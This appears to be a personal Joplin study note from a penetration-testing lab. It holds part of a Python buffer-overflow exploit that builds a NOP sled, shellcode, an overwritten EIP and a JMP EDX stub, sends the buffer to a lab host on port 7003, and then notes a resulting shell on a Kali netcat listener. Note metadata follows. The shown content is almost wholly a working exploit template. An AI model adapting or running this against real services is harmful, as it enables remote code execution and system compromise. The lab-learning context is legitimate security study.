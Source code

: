 ```python
  nop_sled = "\x90" * 16
  filler = "B" * (2080 - len(nop_sled) - len(shellcode))
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(nop_sled) - len(shellcode) - len(filler) - len(eip) - len(first_stage))
  inputBuffer = nop_sled + shellcode + filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

Notice we have a shell on the Kali netcat listener
![80dc6137af58c638cd5284ae6ebefdd7.png](:/310e40a8d3bc4fa38399e99f16856afb)



































id: 1d61677af5bd4af8b16f1e1c6327d2c5
parent_id: 50d74634348d4d8da3591dddd2cd50f3
created_time: 2020-09-27T10:14:41.390Z
updated_time: 2020-09-28T02:33:51.904Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-27T10:14:41.390Z
user_updated_time: 2020-09-28T02:33:51.904Z
encryption_cipher_text: 
encryption_applied: 0